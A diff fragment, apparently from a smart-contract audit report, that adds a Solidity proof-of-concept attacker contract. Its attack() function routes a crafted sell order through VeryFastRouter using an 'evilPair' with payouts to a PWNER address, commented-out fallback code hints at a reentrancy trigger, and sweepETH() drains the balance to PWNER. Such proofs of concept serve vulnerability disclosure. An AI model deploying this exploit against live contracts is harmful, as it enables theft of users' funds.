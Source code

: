 ```diff
+        // console.log("entered fallback");
+        // if (msg.sig == this.attack.selector) {
+        //     console.log("doing attack");
+        //     attack();
+        //     return;
+        // }
+        // if (++counter == 2) {
+        //     console.log("doing attack");
+        //     attack();
+        // } else {
+        //     console.log("doing nothing");
+        //     return;
+        // }
+    }
+
+    receive() external payable {}
+
+    function attack() public {
+        console.log("executing attack");
+        VeryFastRouter.BuyOrderWithPartialFill[] memory attackBuyOrders = new VeryFastRouter.BuyOrderWithPartialFill[](0);
+        VeryFastRouter.SellOrderWithPartialFill[] memory attackSellOrders = new VeryFastRouter.SellOrderWithPartialFill[](1);
+        uint256[] memory nftInfo = new uint256[](1);
+        nftInfo[0] = 1337;
+        uint256[] memory empty = new uint256[](0);
+
+        attackSellOrders[0] = VeryFastRouter.SellOrderWithPartialFill({
+            pair: LSSVMPair(evilPair),
+            isETHSell: true,
+            isERC721: true,
+            nftIds: nftInfo,
+            doPropertyCheck: false,
+            propertyCheckParams: "",
+            expectedSpotPrice: expectedSpotPrice < type(uint128).max ? uint128(expectedSpotPrice) : type(uint128).max,
+            minExpectedOutput: 0,
+            minExpectedOutputPerNumNFTs: empty
+        });
+
+        VeryFastRouter.Order memory attackSwapOrder = VeryFastRouter.Order({
+            buyOrders: attackBuyOrders,
+            sellOrders: attackSellOrders,
+            tokenRecipient: payable(PWNER),
+            nftRecipient: PWNER,
+            recycleETH: true
+        });
+
+
+        router.swap(attackSwapOrder);
+
+        console.log("completed attack");
+    }
+
+    function sweepETH() public {
+        (bool success, ) = PWNER.call{value: address(this).balance}("");
+        require(success, "sweep eth failed");
+    }
+}
\ No newline at end of file
```
